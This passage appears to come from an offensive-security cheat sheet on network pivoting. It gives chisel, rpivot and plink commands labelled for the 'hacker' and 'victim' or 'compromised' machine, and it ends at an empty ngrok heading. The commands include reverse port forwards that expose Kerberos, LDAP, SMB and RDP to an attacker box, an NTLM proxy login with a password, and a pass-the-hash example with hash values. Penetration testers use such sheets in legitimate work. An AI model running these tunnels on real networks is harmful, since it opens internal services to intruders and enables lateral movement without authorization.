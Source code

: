 ```powershell
go get -v github.com/jpillora/chisel

# forward port 389 and 88 to hacker computer
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
```

## Rpivot

Server (Attacker box)

```python
python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0
```

Client (Compromised box)

```python
python client.py --server-ip <ip> --server-port 9443
```

Through corporate proxy

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e
```

Passing the hash

```python
python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \
--ntlm-proxy-port 8080 --domain CORP --username jdoe \
--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE
```

## plink

```powershell
# exposes the SMB port of the machine in the port 445 of the SSH Server
plink -l root -pw toor -R 445:127.0.0.1:445 
# exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389  

plink -l root -pw mypassword 192.168.18.84 -R
plink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445

plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
# redirects the Windows port 445 to Kali on port 22
plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185   
```

## ngrok
